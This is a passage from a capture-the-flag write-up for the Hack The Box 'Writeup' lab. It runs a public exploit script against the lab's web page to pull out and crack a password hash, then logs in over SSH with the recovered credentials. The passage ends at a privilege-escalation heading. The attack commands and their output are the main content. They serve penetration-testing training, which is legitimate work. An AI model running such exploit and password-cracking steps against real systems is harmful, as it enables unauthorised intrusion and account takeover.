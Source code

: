 The script is written in python 2, so I set up a quick python virtual environment to run it in.

```console
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/writeup]
└─$ virtualenv writeup
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/writeup]
└─$ source writeup/bin/activate
```

Then run the script with the URL and specify a wordlist so that it will crack the hash for us. You could run it with only the url and then use hashcat to crack the hash if you would like, but since it's an option I ran with it.  **Make sure to use the url for the writeup page, or you will trigger the DoS protection script and be banned for a little bit.**

```console
┌──(writeup)─(dimondsec㉿hackbook)-[~/Documents/HTB/writeup]
└─$ python 46635.py --url http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt
```

It's a little slow, but after a few minutes we'll see that it found a username and password hash/salt and that it was successfully able to crack it.

```console
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

## User

While looking through the files earlier I discovered a login page at /writeup/admin (you could also discover this with something like gobuster), but the credentials we found didn't work. Let's try logging in with ssh.

```console
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/writeup]
└─$ ssh jkr@10.10.10.138             
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$
```

Success!! We're in, and right away are able to find the user flag.

## Privilege Escalation
